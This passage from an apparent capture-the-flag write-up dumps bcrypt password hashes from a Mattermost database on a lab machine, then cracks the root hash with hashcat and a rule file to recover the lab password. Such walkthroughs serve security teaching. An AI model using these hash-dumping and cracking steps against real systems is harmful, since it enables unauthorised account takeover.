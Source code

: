 I’ll start with the `users` table:

```

MariaDB [mattermost]> select Username,Password from Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| qqqq                             | $2a$10$5B3h2oM/j0qeugNf9/MwV.nYW1uBCNBnQrJr8kS0iDBuINB4mu1HC |
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| oxdfa                            | $2a$10$W.i4QH1wBaxqKAUipiFkbOlVUAXWjwyuzIQuPi8T.tFqxeg28kUj2 |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| oxdf                             | $2a$10$EA7sQu.R9OSOvLUUb/kWvetfiqKJfcn1Pzvj3xvYFZgK5Q1YJ8WyK |
+----------------------------------+--------------------------------------------------------------+

```

A lot of those look like other users or me. I’ll focus on the root user.

### Crack Password

I’ll drop the hash into a file:

```

root@kali# cat hash 
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO

```

Based on the comments from Mattermost, I’ll create a file with the password:

```

oxdf@parrot$ cat password 
PleaseSubscribe!

```

Now I can run with a rule file to get different variations on the passwords in the file (just one in this case). There are many in `/usr/share/hashcat/rules`, but why not start with the one called “best”:

```

root@kali# hashcat -m 3200 hash password --user -r /usr/share/hashcat/rules/best64.rule 
...[snip]...
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21

```
